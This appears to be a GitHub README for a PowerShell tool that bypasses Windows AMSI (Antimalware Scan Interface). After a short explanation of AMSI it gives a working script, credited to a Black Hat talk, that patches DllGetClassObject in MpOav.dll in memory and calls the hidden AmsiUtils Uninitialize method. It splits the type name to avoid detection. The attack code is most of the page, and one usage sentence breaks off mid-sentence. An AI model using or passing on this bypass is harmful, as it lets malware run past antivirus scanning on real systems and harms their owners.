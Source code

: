 # bypass-amsi-powershell

AMSI stands for "Antimalware Scan Interface." It is a Microsoft Windows interface that allows antivirus and other security software to scan scripts and other types of content in memory, before they are executed. This allows the security software to detect and prevent the execution of malicious scripts, such as those used by malware or other types of cyber threats. AMSI was introduced in Windows 10 and is also supported in Windows Server 2016 and later versions. This script essentially breaks the AMSI protection by breaking one of the components in the AMSI chain.

This script can run on any of [these](./static/VERSIONS.md) versions of Windows.

## Usage

This script works by breaking the chain in the amsi.dll. This exact script breaks the


AMSI Bypass created By Maor Korkos https://i.blackhat.com/Asia-22/Friday-Materials/AS-22-Korkos-AMSI-and-Bypass.pdf


## Script 

1st Method by Maor Korkos


```powershell
Add-Type $APIs
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
$LoadLibrary = [APIs]::LoadLibrary("MpOav.dll")
$Address = [APIs]::GetProcAddress($LoadLibrary,
"DllGetClassObject")
$p = 0
[APIs]::VirtualProtect($Address, [uint32]6, 0x40, [ref]$p)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
$object = [Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils')
$Uninitialize = $object.GetMethods("NonPublic,static") | Where-Object Name -eq Uninitialize
$Uninitialize.Invoke($object,$null)
```